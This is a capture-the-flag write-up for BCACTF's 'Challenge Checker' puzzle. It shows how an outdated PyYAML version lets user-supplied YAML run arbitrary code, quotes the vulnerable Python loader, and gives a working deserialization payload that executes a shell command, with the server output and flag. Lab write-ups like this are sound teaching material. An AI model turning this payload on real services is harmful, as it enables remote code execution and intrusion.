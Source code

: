 # Challenge Checker

#### Category : misc
#### Points : 150 points
#### Author : anli, Edward Feng

## Challenge
I made this challenge checker to automate away ed's job. Maybe you can get a flag if you give it enough delicious yams...

-   [chall.yaml](https://objects.bcactf.com/bcactf2/challenge-checker/chall.yaml)
-   [requirements.txt](https://objects.bcactf.com/bcactf2/challenge-checker/requirements.txt)
-   [verify.py](https://objects.bcactf.com/bcactf2/challenge-checker/verify.py)
-   `nc misc.bcactf.com 49153`

## Solution
Taking a look at `requirements.txt`, we find that it is using an old version of PyYAML(3.13).

When I searched for vulnerabilites, I found that PyYAML below 5.4 is vulnerable to arbitrary code execution due to the `full_load` method.

More Information :
[PyYAML Vulnerabilities](https://snyk.io/vuln/SNYK-PYTHON-PYYAML-590151)

I also found a writeup for the same at https://hackmd.io/@harrier/uiuctf20

#### Vulnerable Code :
The vulnerable function is the `check` function
```python
def check(raw_data) -> "Tuple[list[str], list[str]]":
    data = load(raw_data)
    if not isinstance(data, dict):
        raise Exception("Data must be a dictionary")
```

This function is being called after accepting `raw_data` from the user :
```python
if __name__ == "__main__":
    cprint("Paste in your chall.yaml file, then send an EOF:", "cyan", attrs=["bold"])
    sys.stdout.flush()
    try:
        raw_data = sys.stdin.read()
        errors, warnings = check(raw_data)
```

#### Getting flag.txt
I came up with the following payload to extract `flag.txt` :
```bash
!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "import os; os.system('cat flag.txt')"
 ```
 
 Getting the flag :
 ```bash
$ cat payload |  ncat misc.bcactf.com 49153                                         
 
Paste in your chall.yaml file, then send an EOF or two empty lines:
bcactf{3d_r3ally_l1k35s_his_yams_c00ked_j5fc9g}
Fatal error: Data must be a dictionary

```

Flag : ```bcactf{3d_r3ally_l1k35s_his_yams_c00ked_j5fc9g}```

#### Note
I used ncat instead of nc because there was some problem while sending EOF with nc.